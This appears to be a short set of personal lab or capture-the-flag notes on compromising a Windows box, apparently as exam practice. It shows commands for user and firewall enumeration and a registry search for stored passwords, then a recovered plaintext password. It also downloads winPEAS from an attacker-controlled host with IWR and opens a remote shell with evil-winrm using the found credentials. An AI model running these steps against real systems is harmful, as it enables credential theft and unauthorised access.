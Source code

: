 
![[Pasted image 20240502020942.png]]


```
net user
```
![[Pasted image 20240502021215.png]]

```
netsh firewall show state
```
![[Pasted image 20240502021554.png]]


```
reg query HKLM /f password /t REG_SZ /s
```
![[Pasted image 20240502021900.png]]

```
Moneymakestheworldgoround!
```

Let's run winpeas and see what we can find
```
IWR -Uri http://10.10.16.20:8080/winPEASx64.exe -OutFile winPEASx64.exe
```

I tried running x86 but in the end x64 worked which means that the system is x64
```
./winPEASx64.exe
```

![[Pasted image 20240502022922.png]]
![[Pasted image 20240502024020.png]]
I guess this password is not working
```
svc_loanmanager
```

```
Moneymakestheworldgoround!
```

The password was correct but i think this could easily happen in the exam as well

```
evil-winrm -u svc_loanmgr -p 'Moneymakestheworldgoround!' -i 10.10.10.175
```

![[Pasted image 20240502030853.png]]

As we have to use the username and look what we got the shell and will the bloodhound.

![[Pasted image 20240502024103.png]]



